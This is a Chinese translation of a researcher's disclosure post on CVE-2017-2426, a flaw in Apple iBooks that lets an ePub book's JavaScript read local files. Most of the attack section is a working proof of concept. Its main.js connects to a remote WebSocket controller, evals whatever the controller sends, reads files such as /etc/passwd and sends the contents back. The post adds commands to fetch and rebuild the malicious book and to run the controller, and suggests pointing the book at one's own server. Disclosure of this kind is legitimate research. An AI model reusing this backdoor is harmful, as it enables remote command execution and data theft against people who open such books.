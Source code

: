 
# 【技术分享】CVE-2017-2426：苹果iBook正在利用JavaScript“读”你（含演示视频、POC）


                                阅读量   
                                **81024**
                            
                        |
                        
                                                                                                                                    ![](./img/85806/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：s1gnalcha0s.github.io
                                <br>原文地址：[https://s1gnalcha0s.github.io/ibooks/epub/2017/03/27/This-book-reads-you-using-JavaScript.html](https://s1gnalcha0s.github.io/ibooks/epub/2017/03/27/This-book-reads-you-using-JavaScript.html)

译文仅供参考，具体内容表达以及含义原文为准



[![](./img/85806/t0120a51901b5dd0efd.jpg)](./img/85806/t0120a51901b5dd0efd.jpg)

翻译：[shan66](http://bobao.360.cn/member/contribute?uid=2522399780)

稿费：50RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

<br>

“是的，书很危险。它们应该是危险的——因为它们蕴含思想。”——彼得•豪特曼

在前一篇关于ePub解析器的文章（即，[这本书正在读你——利用支持ePub书籍格式的服务和阅读软件](https://s1gnalcha0s.github.io/epub/2017/01/25/This-book-reads-you.html)）中，我提到了使用ePub的脚本功能对用户执行本地攻击的话题。

苹果刚刚公布了一个安全漏洞，即我去年在iBooks上报告的一个问题：允许在打开书籍时访问用户系统上的文件。 El Capitan的iBooks将使用file://origin打开一个ePub，这将允许攻击者在打开一本书时访问用户的文件系统。 （[CVE-2017-2426](https://support.apple.com/en-us/HT207615)）

为了帮助演示如何使用这种方式对用户进行攻击，我将WebSocket客户端添加到了一本书中，以便打开该书的所有用户都将连接到一个WebSocket控制器服务器，该服务器可以为他们发送任意指令。 只要用户将书打开，ePub中的WebSocket客户端就处于允许访问的状态（如果向用户提供了值得阅读的内容的话，那么电子书就很可能会长时间处于打开状态）。

例如，向用户发送一本图书：

[![](./img/85806/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d471075103958f41.png)

打开书籍时，iBooks将连接到WebSocket控制器：

[![](./img/85806/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0192e3311039160d1c.png)

连接到WebSockets控制器的iBooks。如果阅读器含有CVE-2017-2426（file://origin）漏洞的话，则攻击者就可以获取本地文件了：

[![](./img/85806/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t011e0b7d719e30bee7.png)

<br>

**<strong style="font-size: 18px;text-indent: 32px">演示**视频</strong>





**POC**

您可以使用这里的POC书亲自试验一下。 您可以在Apple iBooks或Adobe Digital Editions等阅读器中打开它。

[![](./img/85806/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01618b334795c25f5c.png)

免责声明：虽然POC将连接到我的控制器，但我保证不会干任何坏事。

您也可以修改它，使其指向自己的控制器： 



```
curl https://s1gnalcha0s.github.io/assets/controller/POC.epub -o poc.epub
    unzip poc.epub; rm poc.epub
```

poc.epub/epub/main.js的内容 



```
WebSocketController = 'ws://websocket-controller.herokuapp.com:80';
var socket = new WebSocket(WebSocketController, 'echo-protocol');
socket.onopen = function(evt) { onopen() };
socket.onmessage = function(msg) { onmessage(msg) };
socket.onclose = function(evt) { onerror() }
function onopen()
{
  message('Connected to WebSocket Controller: ' + WebSocketController);
}
function onerror()
{
  message('Unable to connect to WebSocket Controller: ' + WebSocketController);
}
function onmessage(msg)
{
  //just eval anything sent from the controller
  response = eval(msg.data);
  //send response back to controller
  socket.send(response);
}
function get(loc) {
  var xmlhttp = new XMLHttpRequest();
  xmlhttp.open('GET', 'file://' + loc,false);
  xmlhttp.send();
  //populate the message element
  message(xmlhttp.responseText);
  return xmlhttp.responseText;
}
function message(message) {
  document.getElementById("message").innerText = message;
  return message;
}
function showExfil() {
  get('/etc/passwd');
}
```

```
zip -r poc.epub *
```



**Node.js WebSocket控制器**

```
curl https://s1gnalcha0s.github.io/assets/controller/server.js -o server.js
    npm install websocket
    node server.js
```

本文到此就结束了，祝阅读愉快！ 
